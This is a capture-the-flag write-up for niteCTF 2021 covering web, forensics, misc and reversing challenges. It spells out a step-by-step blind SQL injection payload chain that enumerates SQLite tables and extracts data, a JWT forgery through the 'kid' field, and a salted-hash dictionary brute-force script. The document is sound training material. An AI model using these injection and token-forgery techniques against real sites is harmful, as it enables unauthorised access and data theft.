

# INTENT CTF 2021

niteCTF is a jeopardy style CTF for students interested in cybersecurity. niteCTF is designed to help students explore newer domains in cybersecurity as well as help existing professionals practise their skills. 

## Overview

| Title | Category | Points | Solves | Submitted | WriteUp | Flag |
|-------|----------|--------|--------|-----------|---------|------|
| [welcome to niteCTF](#welcome_to_nitectf) | Web | 100 | 205 | ✔️ | ✔️ | ✔️ |
| [BATCHEST](#batchest) | Web | 244 | 81 | ✔️ | ✔️ | ✔️ |
| [JWT](#jwt) | Web | 434 | 39 | ✔️ | ✔️ | ✔️ |
| [Hashes Hashes we all fall down](#hashes_hashes_we_all_fall_down) | Misc | 147 | 95 | ✔️ | ✔️ | ✔️ |
| [Qurious Case](#qurious_case) | Forensics | 356 | 61 | ✔️ | ✔️ | ✔️ |
| [baby reversing](#baby_reversing) | rev | 100 | 221 | ✔️ | ✔️ | ✔️ |
| [Lost Dungeon 1](#lost_dungeon_1) | rev | 408 | 49 | ✔️ | ✔️ | ✔️ |
| [Lost Dungeon 2](#lost_dungeon_2) | rev | 440 | 40 | ✔️ | ✔️ | ✔️ |

---

## welcome to niteCTF

**Challenge**

Go to the https://capturetheflag.cryptonite.team and copy the flag, it's that simple!

**Solution**

Hover the mouse over the footer of the page and you can see that the text changes, this is our flag


Done! We have our flag "`nite{welcome_to_niteCTF2021}`"

## BATCHEST

**Challenge**

My friend just opened a new zoo, so I made him a site to check if his zoo has those animals. https://blindsqli-web.chall.cryptonite.team/

Author: SPEED

**Solution**

By clicking on the link we find ourselves on a page where we can enter the name of an animal and it returns us if the zoo has it or not.

Looking at the link we can see that this is a blind sql injection to do on the input.

Let’s use this simple injection to check if it works: `1' or 1=1 -- -`

It finds that the animal has been found, it works!

Now we have to find out what kind of backend sql it is

By performing this query we can see that it is a SQLite backend: `1' or sqlite_version()=sqlite_version() -- -`

We will now use the Burp suite to make injections because we will have several payloads

The first is to find the number of tables that our database has: `1' or (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) = number_of_table -- -`

By replacing `number_of_table` with a number we wait for the site to return true to find the right number of tables and we find that the database has 3 tables

Then we need to find the size of the table names: `1' or (SELECT length(tbl_name) FROM sqlite_master WHERE type='table'and tbl_name not like 'sqlite_%' limit 1 offset table_index ) = table_name_length_number -- -`

By replacing `table_index` with a number between 0 and 2 and `table_name_length_number` by the length we find out the first table have 5 chars, the second 8 and the last one 7.

Then we need to find the table names: `1' or (SELECT hex(substr(tbl_name,char_index,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset table_index) = hex('char') -- -`

By replacing `table_index` with a number between 0 and 2, `char_index` with a number between 0 and the table name length and char by an ASCII character we find out the first table is `Facts`, the second `Flag_tbl` and the last `animals`

We will therefore be interested in finding the column names of the Flag_tbl table: `1' or (SELECT hex(substr(sql,char_index,1)) FROM sqlite_master WHERE tbl_name = 'Flag_tbl' AND type = 'table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%') = hex('char') -- -`

By replacing `char_index` with a number between 0 and the column name length and char by an ASCII character we find out the name of the column is `flag_cln`

We look for the number of elements in our column: `or (select count(flag_cln) from Flag_tbl) = number_of_elem -- -` and there is only one

Then we look for the size of the element: `or (select length(flag_cln) from Flag_tbl limit 1 offset 0) = size_of_elem -- -` and it's 12 chars

We finally get the value of the element: `or (select hex(substr(flag_cln,char_index,1)) from Flag_tbl limit 1 offset 0) = hex('char') -- -`

By replacing `char_index` with a number between 0 and the element size and char by an ASCII character we find our flag!

Done! We have our flag "`nite{THIS_IS_WORKING}`"

## JWT

**Challenge**

Jason likes cookies but he is diabetic. So his mom stored them away somewhere safe. Can you help him find the path that leads to the solution for his hungry desires?

https://jwt-web.challenge.cryptonite.team http://35.201.116.81/

Author: LatinArceus

**Solution**

We end up on a site that generates a JWT according to the username that we enter and a button to access the admin page which obviously does not work since we do not have the admins rights.

Looking inside the JWT we can use an `nadmin_cap` boolean which should give us access to the administration page and a `kid` string with a secret link

We can replace the `kid` string with a link that sends an empty string, and therefore be able to sign the JWT with an empty string.

And it worked, we access the admin page and we see the flag!


Done! We have our flag "`nite{R3diR3ct10n_c4n_b3_4_vuLn_t0O}`"


## Hashes Hashes we all fall down

**Challenge**

Description: We have captured Mr Brute who is a world renowned architect who has built the safest vault in the world which cannot be broken in anyway unless you have the password. He is also one of the biggest bee movie fans ever (His password was probably a word used in the movie). We were able to get the SHA-256 hash of the password from Mr.Brute by using extreme torture methods (Making him watch the bee movie 2398 times). During this torture, he told us that he was told to prepend the password with a salt before hashing it, so he uses 'salt' as a salt cuz salt is salt. He died soon after we released him (Got stung by a bee, obviously). BUT you have the hash. Decrypt the hash so you can break into his vault. hash = 12f3b9faec781b0e84184a6fa7c44c81416e5b1855633a2a2730295324724efe [Wrap the answer in flag format] Example :- nite{password} NOT nite{salt+password}

Author: Necron3574

**Solution**

This one was pretty straight forward.

We recovered the script of the movie Bee Movie in a file `bee.txt`

We coded this python script:
```py
from collections import Counter
import re
import hashlib

cnt = Counter(re.sub("[^\w\s]", "", open("bee.txt", "r").read()).split())

for word in cnt:
    if hashlib.sha256('salt' + word).hexdigest() == '12f3b9faec781b0e84184a6fa7c44c81416e5b1855633a2a2730295324724efe':
            print(word)
```

This script compares sha256 of all the words of the movie wit the salt `salt` and the hash we are given

We find the same hash with the word `Oinnabon`, so we found the flag.

Done! We have our flag "`nite{Oinnabon}`"

## Qurious Case

**Challenge**

Our question creator has deviated from the standard method of making questions. He has hidden and corrupted the flag. Can you recover it?

Authors: Sampai

[HelloDarknessMyOldFriend.png](./HelloDarknessMyOldFriend.png)

**Solution**

We find ourselves with an image that looks black at the beginning, but it is in fact a qr code with a very dark background


We can see that the qr code is missing a part. We can use a tool named [QRazyBox](https://merricx.github.io/qrazybox/).

We import the QR code, we give it the layout of our QR Code and we use the Reed-Solomon Decoder. And he finds us the contents of the QR Code.


Done! We have our flag "`nite{tH@T'$_qRazzYyYy}`"

## baby reversing

**Challenge**

Can you get this program to give up it's password ?

Ref: https://www.youtube.com/watch?v=3NTXFUxcKPc

Author: inf1d3l

[baby_rev](./baby_rev)

**Solution**

We disassemble the program in IDA and we look for the `main` function, we can quickly notice that it's a C++ program with a simple string comparison.

We can try the two comparisons given to us and find the flag.



Done! We have our flag "`nite{baby_rev_champ}`"

## Lost Dungeon 1

**Challenge**

Welcome Adventurer! Legend has it that there lies a dungeon filled with powerful beasts which can be tamed to reveal a secret message. The path to the dungeon is long and arduous. No one who has found the dungeon has returned back as once the beasts get to you they never leave. Can you reach the dungeon and tame the beasts?

Author: Senduz

[Lost_Dungeon.zip](./Lost_Dungeon.zip)

**Solution**

We really liked this challenge, it’s about changing the behavior of entity scripts in a Unity game.

The challenge tells us about a long path so we will change the speed of movement of our character.

He also tells us about ennemis who imprison us, so we will make sure that they cannot move.

For these two things, we open the `Assembly.CSharp.dll` file in `dnSpy` and edit the `Player` class with a multiplier on the move function calls and edit the `Enemy` class by commenting on the move function calls.

We launch the game, we cross the long corridor and we come across the enemies and we can see that they form letters.


Done! We have our flag "`nite{Eb1c_9aM3R}`"

## Lost Dungeon 2

**Challenge**

Welcome Adventurer! There is a portal that teleports you to other levels but unfortunately only wizards can use it. Can you figure out how to make the portal work and get to the hidden level "level0"?

The files are the same as that of Lost Dungeon 1

Author: Senduz

[Lost_Dungeon.zip](./Lost_Dungeon.zip)

**Solution**

This challenge is the continuation of the previous challenge.

We are asked to enter the portal to access the hidden level.

In `dnSpy` we modify the `Portal` class to replace that the `Player` can enter the portal instead of the `Wizard`

We open the game, we cross the gate and a NPC tells us that we should be able to respawn to have access to the secret area.

By digging a little into `dnSpy` we can find the `GameManager` class and the `Awake` function which tells where to place the player when loading a scene.

We can replace the script `n` which gives the spawn position with the script `l` which gives the respawn position.

We relaunch the game, we enter the portal again, and we don’t spawn from the same place and we can observe that the ground forms letters.


Done! We have our flag "`nite{L3VeL_100_MaF1a_b055}`"


